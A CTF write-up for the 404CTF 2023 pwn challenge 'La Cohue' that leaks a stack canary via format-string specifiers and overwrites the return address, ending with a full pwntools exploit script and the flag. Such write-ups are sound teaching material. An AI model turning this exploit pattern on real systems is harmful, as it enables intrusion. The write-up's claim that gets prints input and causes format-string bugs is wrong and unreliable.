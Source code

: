 ```yaml
---
title: CTFs | 404CTF_2023 | Pwn | La Cohue
author: BatBato
date: 2023-06-08
categories: [CTFs, 404CTF_2023, Pwn]
tags: [Pwn, Ghidra, Canary]
permalink: /CTFs/404CTF_2023/Pwn/La_Cohue
---
```


# La Cohue

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/7ea16ade-ee82-4fa2-85eb-189b0bb37058)

In this challenge, we are given an `ELF` executable available [here](https://github.com/Nouman404/nouman404.github.io/blob/main/_posts/CTFs/404CTF_2023/Pwn/la_cohue). If we look at the code in Ghidra, we can see a `canary` function that prints the flag. The executable allows us to discuss with `Francis` that lost his `canary`. With all of this `canaries`, we can guess that this challenge want us to do a buffer overflow and bypass the canary.

As we can see in the code, there is the `gets` function that will print our input. `gets` function in C is vulnerable to format string attacks. The `gets` function is used to read a line of input from the standard input and store it into a buffer. However, it does not perform any bounds checking on the input, making it susceptible to buffer overflows and format string vulnerabilities.

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/316bd519-a916-4b40-a47d-ce521c3c67ca)

We can try using a basic payload like `%p` to see if anything happens:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/7773fb55-a595-4a92-ade1-5af6bdd78c4d)

As we can see, we have an address displayed. We can continue to do so until we find the address of the `canary`. The address of the canary is easy to find, it is the only one that finish with some zeros at the end. We can use `%i$p` where `i` is an integer. This is used to read the value from a specific position on the stack. Here's a breakdown of the notation:
```
%i: It specifies the position of the address we will display
$p: It indicates that the value to be printed is fetched from the stack at a specific position indicated by the integer value i.
```

So we can do for example `%1$p %2$p %3$p %4$p %5$p %6$p %7$p %8$p %9$p %10$p`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/c25e701b-e3ef-432b-959b-6d17ec966d17)


We don't see anything interesting here. The strings at the end that look like `0x2432252070243125` are just our input. If we decode `0x2432252070243125` to ASCII characters, we get `$2% p$1%`. We can continue with the values from `11` to `20` and we have:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/e40fbb47-5473-45f2-9f0c-0a1fda10573f)

We can see that the address at position `%17` is `0xea9dd891cb4be500` wich ends with `00`. This may be our address. We can run it a second time to confirm that it is the good one:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/ddccb33c-8f4b-4cc9-a1a0-6ed5c5074e83)

As we can see, the address changed but still ends with two zeros. This should be the address of our `canary`. Because there is no ASLR on this program, we can get the address of the `canary` function using Ghidra or Gdb:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/720a2025-cbc5-4000-b7bb-f51090e78b7c)

Now, for our payload to work correctely, we need to find the offset value, that can be found in the `choice` function:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/c70953d4-68c4-4d15-b94b-de8886684adb)

Now we have everything we need. We can use the following code to get the flag:

```python
from pwn import *
warnings.filterwarnings("ignore", category=BytesWarning)
#io = process("la_cohue")
io = remote("challenges.404ctf.fr", 30223)

io.sendline("2")
# try with %10$ ... %20$p => find an address like 0x...00 => this address is the canary address
io.sendline("%17$p ")

io.recvuntil("[Vous] : ")
addr_canary = io.recvline()[:-1].decode()
print("@ canary:", addr_canary)

#String to hex
addr_canary = int(addr_canary, 16)
#convert to address format
addr_canary = p64(addr_canary)

aff = io.recvuntil(">>> ")
#address of the function named Canary (found in Ghidra or objdump -d | grep canary)
addr_fct_canary = p64(0x00400877)

offset = 72
payload = b"A" * offset + addr_canary + 8* b"A" + addr_fct_canary

io.sendline("1")
io.recvuntil("[Vous] : ")
io.sendline(payload)
print(io.recvline().decode())
io.recvuntil(">>> ").decode()
io.sendline("3")
print(io.recvline().decode())

print("Flag : "+io.recvline().decode())
```

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/f8cf3fb7-bff4-4ca7-9204-8dc2d0205441)

We get the flag `404CTF{135_C4N4r15_41M3N7_14_C0MP46N13_N3_135_141553Z_P45_53U15}`
